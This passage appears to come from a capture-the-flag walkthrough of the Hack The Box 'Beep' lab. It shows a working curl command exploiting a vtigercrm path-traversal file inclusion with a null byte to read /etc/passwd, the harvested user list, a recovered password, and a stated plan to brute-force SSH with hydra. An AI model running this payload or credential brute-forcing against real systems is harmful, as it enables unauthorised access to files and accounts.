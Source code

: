 Now we have a password but we don't know the user it works on 

So running ssh brute force using the password `jEhdIekWmdjE` against the user list generated 

```
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Beep]
└─$ curl -k https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00 | cut -d ":" -f 1  > users
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1638  100  1638    0     0   1277      0  0:00:01  0:00:01 --:--:--  1278
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Beep]
└─$ cat users      
root
bin
daemon
adm
lp
sync
shutdown
halt
mail
news
uucp
operator
games
gopher
ftp
nobody
mysql
distcache
vcsa
pcap
ntp
cyrus
dbus
apache
mailman
rpc
postfix
asterisk
rpcuser
nfsnobody
sshd
spamfilter
haldaemon
xfs
fanis
```

Now running hydra agaist the users
